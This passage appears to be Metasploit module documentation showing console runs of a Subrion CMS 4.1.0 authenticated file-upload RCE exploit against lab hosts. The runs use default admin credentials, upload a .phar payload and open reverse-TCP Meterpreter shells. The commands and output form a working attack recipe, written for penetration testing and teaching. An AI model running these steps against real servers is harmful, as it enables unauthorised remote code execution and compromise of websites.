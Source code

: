 ```
[*] Logging in to Subrion Admin Panel at: http://192.168.245.138:8080/panel/ using credentials admin:admin
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.245.138:8080/uploads/zftofixpwb.phar
[*] Executing 'zftofixpwb.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.138
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.138:56994) at 2023-07-30 01:56:57 -0400
[+] Successfully executed payload: http://192.168.245.138:8080/uploads/zftofixpwb.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 986c4ddc755b
OS          : Linux 986c4ddc755b 4.19.0-25-amd64 #1 SMP Debian 4.19.289-1 (2023-07-24) x86_64
Meterpreter : php/linux
meterpreter >
```

### Subrion CMS v4.1.0 with Docker on Windows 10

* Using PHP payload - default TARGET 0

```
msf6 > use exploit/multi/http/subrion_cms_file_upload_rce 
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > set PASSWORD 123456
PASSWORD => 123456
msf6 exploit(multi/http/subrion_cms_file_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.29.1:8080/panel/
[+] Target is running Subrion CMS.
[*] Checking Subrion CMS version...
[+] Target is running Subrion CMS Version 4.1.0.
[+] The target appears to be vulnerable. However, this version check does not guarantee that the target is vulnerable, since a fix for the vulnerability can easily be applied by a web admin.
[*] Connecting to Subrion Admin Panel login page to obtain CSRF token...
[+] Successfully obtained CSRF token: 3e1ab07d6802525ce76747c40f117961
[*] Logging in to Subrion Admin Panel at: http://192.168.29.1:8080/panel/ using credentials admin:123456
[+] Successfully logged in as Administrator.
[*] Preparing payload...
[*] Sending POST data...
[+] Successfully uploaded payload at: http://192.168.29.1:8080/uploads/dckfdvdmrr.phar
[*] Executing 'dckfdvdmrr.phar'... This file will be deleted after execution.
[*] Sending stage (39927 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:50985) at 2023-07-30 04:13:51 -0400
[+] Successfully executed payload: http://192.168.29.1:8080/uploads/dckfdvdmrr.phar

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 3514d9412b2d
```